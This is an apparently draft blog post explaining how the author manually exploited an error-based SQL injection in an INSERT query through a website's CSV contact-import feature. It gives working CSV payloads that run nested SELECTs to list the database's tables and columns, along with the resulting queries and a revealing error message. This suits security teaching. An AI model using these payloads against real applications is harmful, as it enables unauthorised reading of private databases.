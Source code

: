 +++
title = 'Exploiting Sql Injection Insert Statement'
date = 2025-01-09T15:11:14+01:00
draft = true
type = "post"
excerpt = "In this blog post, I will discuss how I manually exploited an SQL injection vulnerability in an INSERT query statement."
authors = ["Hassan AL ACHEK"]
tags = []
categories = []
readingTime = 5  
hero = "/images/default.jpg"
+++
# What is SQL Injection?
SQL Injection is a vulnerability that occurs when user input is directly used to build a query statement, which is then executed against the application's database. By taking user input without proper validation and sanitization and dynamically building SQL queries, an attacker can insert carefully crafted input—often referred to as a payload—to exploit and execute malicious queries. These queries can allow the attacker to read, write, delete, or modify data in the database.

There are multiple types of SQL injection. For more detailed information about this vulnerability, I recommend checking out PortSwigger Academy or the OWASP guide.

# INSERT Statement:
This statement is usually used to insert new row into an SQL table. So for example in a web application if you want to insert a new user into the users table you will execute something like that:

`INSERT INTO users(name, mail, phone_number, password) VALUES ('Hassan', 'hassan@gmail.com', '777777', 'pass123')`

# SQL Injection into INSERT Statement
## History:
I was testing a website and found a functionality that allowed me to import contacts from a CSV file. The CSV file consisted of 5 columns, and I could choose the type of separator used in the file. The default separator was a comma (,), but I could also choose a slash (/) or a semicolon (;).

## The Vulnerability:
After testing this functionality, I noticed that the contacts imported from the CSV file were saved into the database for the user I was logged in as. 

This was done to store the contacts so that the user could use them later—for example, to send messages to these contacts or create groups for bulk SMS sending.

The header of the CSV files is the following:
`Name, Family Name, Number, Email, Info`

I decided to put a `'` in one of the columns, so i created a CSV file with the following row:

`hassan, alachek', 7777, hassan@gmail.com, engineer`
The result was and i clicked import i got the following SQL error:

```
dberr: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '7777', 't', 't', 'Axxxxxx')' at line 1
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES('t', 't'', '7777', 't', 't', 'Axxxxxx')   
```

So this is an error based SQLI. I decided to exploit it manually by crafting each time a new CSV file and import it to the web application.

![Import Functionality](/images/sqli-import.png)

### Reading All Table Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"),'Axxxxxx')#;test
```

The resulting SQL query:
```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"), 'Axxxxxx')
```
![All DB Tables](/images/sqli-result-tables.png)

### Reading All Column Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"),'Axxxxxx')#;test
```

The resulting SQL query:
```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"), 'Axxxxxx')
```

Using a nested query allows you to execute the inner query and then replace its result into the `VALUES` clause of the `INSERT` query.

Below is an illustration of the execution flow:

![Execution Flow](/images/sqli-execution-flow.png)




